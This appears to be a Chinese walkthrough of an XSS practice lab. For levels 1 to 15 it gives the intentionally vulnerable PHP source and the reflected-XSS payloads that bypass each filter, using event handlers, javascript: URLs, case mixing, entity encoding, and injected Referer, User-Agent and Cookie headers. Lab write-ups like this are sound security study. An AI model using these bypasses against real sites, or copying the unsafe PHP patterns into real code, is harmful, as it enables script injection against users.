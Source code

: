 参考链接：[https://www.cnblogs.com/bmjoker/p/9446472.html](https://www.cnblogs.com/bmjoker/p/9446472.html)<br />在线处理XSS：[https://evilcos.me/lab/xssor/](https://evilcos.me/lab/xssor/)<br />-----------------------------<br />Level 1：
```php
<?php 
  ini_set("display_errors", 0);
$str = $_GET["name"];
echo "<h2 align=center>欢迎用户".$str."</h2>";
?>
```
常规输入：payload：name = <script>alert('XSS')</script><br />Level 2：
```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level2.php method=GET>
<input name=keyword  value="'.$str.'">
<input type=submit name=submit value="搜索"/>
</form>
</center>';
?>
```
调用了这个解析函数：.htmlspecialchars($str). 把预定义的字符 "<" （小于）和 ">" （大于）转换为 HTML 实体,当页面被加载时，特定字符不会被解析，直接输出。字符包括：& " ' < > <br />预定义的字符是：

- & （和号）成为 &
- " （双引号）成为 "
- ' （单引号）成为 '
- < （小于）成为 <
- > （大于）成为 >

效果：把预定义的字符转换为 HTML 实体，等于<不能用，这时候一种方法是黑名单绕过，就是不使用被过滤的符号，使用js的事件：<br />payload： key=" onclick=alert(1)这样需要点击一下输入框<br> 没成功<br />另一种方法是 提前闭合标签 ：keyword="><script>alert(1)</script> <br />Level 3：
```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>"."<center>
<form action=level3.php method=GET>
<input name=keyword  value='".htmlspecialchars($str)."'>
<input type=submit name=submit value=搜索 />
</form>
</center>";
?>
```
上题尝试闭合<"">构造<script>弹窗方法失效了，因为value中的<被转义了，只能使用js事件触发<br />payload ：value = ' ' onmouseover=alert(1)// '>    解释： '闭合value，//注释掉后面的语句<br />Level 4：
```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace(">","",$str);
$str3=str_replace("<","",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level4.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```
此函数将变量str中的字符>转换为空，转换时区分大小写。同理将<装换为空<br />在这里可以构造一个输入到文本框后出现相应的事件(不需要<标签闭合的事件>）<br />payload：" onfocus=alert(1) autofocus="<br />   " onclick=alert(1) // <br />Level 5：
```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level5.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```
<script 转换成 <scr_ipt ，on转换成 o_n ，这样就过滤了js事件，$str = strtolower($_GET["keyword"]);这样大小写绕过也失效，不过这次没有过滤尖括号<>，这里使用伪协议来构造payload：
```php
"><iframe src=javascript:alert(1)>

"> <a href="javascript:alert(1)">bmjoker</a>

"> <a href="javascript:%61lert(1)">bmjoker</a> //
```
这样的话： <input name=keyword value="  "><iframe src=javascript:alert(1)>"><br />用a标签绕过：payload ：keyword=:"><a href="javascript:alert(/xss)">点我触发</a><br />Level 6：
```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level6.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```
相比上一关，没有大小写过滤，所以：
```php
"> <Script>alert(1)</script> 

"> <img Src=x OnError=alert(1)> 

"><a HrEf="javascript:alert(1)">bmjoker</a>

"><svg x=" " Onclick=alert(1)>

"><ScriPt>alert(1)<sCrIpt>"

" OncliCk=alert(1) 
```
Level7 :
```php
<?php 
ini_set("display_errors", 0);
$str =strtolower( $_GET["keyword"]);
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level7.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```
过滤了这么多，可以双写绕过<br />Level 8：
```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=level8.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
```
可用字符：<> ， ' ,% ，# ，&，用编码代替html实体 ：[https://www.qqxiuzi.cn/bianma/zifushiti.php](https://www.qqxiuzi.cn/bianma/zifushiti.php)<br />payload：javascrip&#x74;:alert(1)     t-->&#x74；<br />Level 9 ：
```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=level9.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
?>
<?php
if(false===strpos($str7,'http://'))
{
  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
        }
else
{
  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
}
?>
```
```php
javascrip&#x74;:alert(1)//http://xxx.com  //利用注释

javascrip&#x74;:%0dhttp://xxx.com%0dalert(1)  //不利用注释

javascrip&#x74;:%0ahttp://xxx.com%0dalert(1)  //不利用注释
```
Level 10：
```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str11 = $_GET["t_sort"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
<center><img src=level10.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
?>
```
分析代码，发现需要两个参数，一个是keyword，一个是t_sort，尖括号<>都被转换成空，还有三个hidden的隐藏输入框
```php
True:?t_sort=test" onclick=alert(10) type=text
keyword = test&t_sort="type="text" onclick = "alert(1)

keyword = test&t_sort="type="text" onmouseover="alert(1)

keyword = test&t_sort="type="text" onmouseover=alert`1`
```
分析过程再参考：[https://blog.csdn.net/wangyuxiang946/article/details/118582886](https://blog.csdn.net/wangyuxiang946/article/details/118582886)

Level 11：
```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_REFERER'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ref"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
<center><img src=level11.png></center>
```
第一个参数：keyword 使用 htmlspecialchars() 转译 并输出到页面 , 难度较大<br />第二个参数： t_sort , 使用 htmlspecialchars() 转译后拼接到 value值 , 难度相对较大<br />第三个参数 HTTP_REFERER , 过滤了尖括号 <> 后拼接到value值 , 难度较小。可以考虑到添加事件<br />用BP添加referer头，参数会作为$str33拼接。<br />payload：Referer:" onclick=alert(11) type=text<br />参考链接：[https://blog.csdn.net/wangyuxiang946/article/details/118583225](https://blog.csdn.net/wangyuxiang946/article/details/118583225)<br />左侧双引号用于闭合value拼接。BP-forword之后点击文本框即可

Level 12：
```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_USER_AGENT'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ua"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```
跟上一关差不多，只是修改的参数变成了user_agent，payload可以照用

Level 13：
```php
<?php 
setcookie("user", "call me maybe?", time()+3600);
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_COOKIE["user"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_cook"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21885817/1647420881474-8146b1c7-a213-45ca-a643-64e42b3bc29e.png#clientId=ufa6e2e48-5c9e-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=18&id=u532ee4aa&margin=%5Bobject%20Object%5D&name=image.png&originHeight=22&originWidth=498&originalType=binary&ratio=1&rotation=0&showTitle=false&size=5128&status=done&style=none&taskId=u965fadfc-2122-443b-a440-d8fcf2b79d7&title=&width=398.4)<br />这一句使发送包的时候会设置Cookie，所以要在修改数据包Cookie项，构造类似上两个的事件触发<br />Payload：Cookie:user=call+me+maybe%3F" onclick=alert(11) type=text<br />Level 14：<br />考察exif XSS ，<br />在上传图片的属性处插入：<script>alert(1)</script><br />解析时触发弹窗

Level15
```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["src"];
echo '<body><span class="ng-include:'.htmlspecialchars($str).'"></span></body>';
?>

```
